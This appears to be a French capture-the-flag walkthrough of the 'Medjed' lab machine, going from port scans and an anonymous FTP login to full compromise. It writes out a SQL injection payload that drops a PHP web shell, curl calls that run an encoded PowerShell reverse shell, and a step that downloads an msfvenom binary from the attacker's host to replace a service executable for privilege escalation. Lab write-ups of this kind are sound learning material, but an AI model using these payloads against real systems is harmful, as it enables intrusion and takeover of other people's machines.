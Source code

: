 # Medjed

	sudo masscan -p1-65535,U:1-65535 192.168.174.127 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.174.127 -oN nmap.txt
	feroxbuster --silent -u http://192.168.174.127:8000/
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    3306/tcp open mysql?  
    5040/tcp open unknown  
    8000/tcp open http-alt BarracudaServer.com (Windows)  
    30021/tcp open ftp FileZilla ftpd 0.9.41 beta  
    33033/tcp open unknown  
    44330/tcp open ssl/unknown  
    45332/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    45443/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC
  

Sur la page http://192.168.174.127:8000/rtl/about.lsp on voit que ce site utilise BarracudaDrive 6.5 et il y a des exploits spécifiques à cette version, mais apparemment juste pour la phase d'élévation de privilèges : https://www.exploit-db.com/exploits/48789

Après la fin de mon scan Nmap j'ai remarqué le FTP sur le port 30021 et la connexion en anonyme semble autorisée : 

    ftp -A anonymous@192.168.174.127 -p 30021
    wget -r ftp://anonymous:""@192.168.174.127:30021/
    tree . -a

Rien d'intéressant dans les fichiers. 

Sur le port 44330 on trouve la version SSL du site. Sur les ports 45332 et 45443 on trouve un autre site avec un quiz étrange. Et sur le port 33033 on trouve un troisième site web avec six photos, dont un DevOps qui a une photo de chat : jerren.devops@company.com

Il y a une fonction de réinitialisation de mot de passe sur l'écran de login. En essayant avec "jerren.devops" pour le nom d'utilisateur et "paranoid" pour le reminder (mot venant de sa phrase de profil) cela fonctionne. 

J'arrive sur la page http://192.168.174.127:33033/users/4 où je vois directement une possibilité d'éditer le profil. Il y a un upload d'image et quelques champs à remplir. J'ai tenté plein d'uploads malicieux et plein de payloads malicieux mais la page semble être safe. 

En revanche il y a une autre option en bas : "Request Profile SLUG (experimental)"

Cette page contient un autre champ à remplir. Mais cette fois des payloads fonctionnent et font planter la page. Et il y a un traceback très précieux : 

        sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"
        ret = ActiveRecord::Base.connection.execute(sql)
        @text = ret
      end

C'est un cas assez classique d'injection SQL mais il n'y a pas de feedback permettant d'énumérer la base de données facilement donc il faut directement écrire dans une backdoor :

    ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'-- -'

Il n'y a plus qu'à exploiter la backdoor. Mais attention à bien aller la chercher sur l'autre site et non pas sur les routes de celui du port 33033 :

    curl 'http://192.168.174.127:45332/backdoor.php?cmd=whoami'
    curl 'http://192.168.174.127:45332/backdoor.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABO...8AcwBlACgAKQA%3D'
    ...
    rlwrap nc -nvlp 443
    type C:\Users\Jerren\Desktop\local.txt

Pour l'élévation de privilèges il suffit de reprendre l'exploit trouvé pendant la phase de reconnaissance, en l'adaptant un peu si on le souhaite :

    cd C:\bd
    ren bd.exe bd.exe.old
    iwr http://192.168.45.226/msfvenom.exe -Outfile C:\bd\bd.exe
    shutdown /r
    ...
    rlwrap nc -nvlp 9999
    type C:\Users\Administrator\Desktop\proof.txt
